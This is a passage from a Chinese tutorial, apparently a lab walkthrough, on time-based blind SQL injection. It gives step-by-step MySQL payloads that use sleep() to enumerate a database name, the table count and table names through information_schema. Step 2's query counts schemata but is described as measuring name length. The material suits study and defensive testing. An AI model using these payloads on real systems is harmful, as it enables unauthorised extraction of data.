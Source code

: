 后又根据单引号`'`与右括号的闭合尝试执行`)`，发现均没有执行到if里面的`sleep()`函数，故可以猜测SQL语句是整型注入的语句。

2、猜一下数据库名的长度值，构造语句为：

```mysql
1 and if((select count(schema_name) from information_schema.schemata)=$num,sleep(3),1)
```

其中`$num`为数据库名的长度值，当值为4的时候，延迟函数执行了，如图：

![image-20210723122851015](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723122851.png)

由此可知数据库名长度为4。

3、知道数据库名长度为4后，开始枚举一下当前的数据库名，构造语句为：

```mysql
1 and if(ascii(substring(database(),$num,1))=$ascii_num,sleep(3),1) --+
```

其中`$num`为该库的第几个字符值，从1开始递增，`$ascii_num`为对应的ASCII码，此处也可以使用二分法查找，执行后观察控制台，延迟了3秒，故语句执行成功，如图：

<img src="https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723123345.png" alt="image-20210723123345302"  />

上述图可知，ASCII码为115，即数据库名第一个值为s时执行了延迟函数，后面同理推断出数据库名为sqli。

4、根据库名开始枚举表的数量，构造语句为：

```mysql
1 and if((select count(table_name) from information_schema.tables where table_schema=database())=$num,sleep(3),1) --+
```

其中`$num`为表的数量值，但该值为2的时候，延迟函数成功执行，如图：

![image-20210723124130854](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723124130.png)

上述图说明库中有2张表，开始下一步。

5、根据表的数量开始查表名的长度值，构造语句为：

```mysql
1 and if((select length(table_name) from information_schema.tables where table_schema=database() limit $table_num,1)=$num,sleep(3),1) --+
```

其中`$table_num`为表的数量值，从0开始，0表示第一张表，`$num`表示长度值，当`$table_num`为0`$num`为4的时候，延迟函数执行，此时可知第一张表的长度为4，如图：

![image-20210723124921736](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723124921.png)

查询另一张表得知另一张表的长度值也为4。

6、根据表的长度值及数量值开始枚举表的字符值，构造语句为：

```mysql
1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit $table_num,1),$num,1))=ascii_num,sleep(3),1)
```

其中`$table_num`为待查询的表的列值，0开始递增，0表示第一列的表，`$num`表示该列表名的第几个字符，1开始递增，1表示第一个，`$ascii_num`表示ASCII码值。
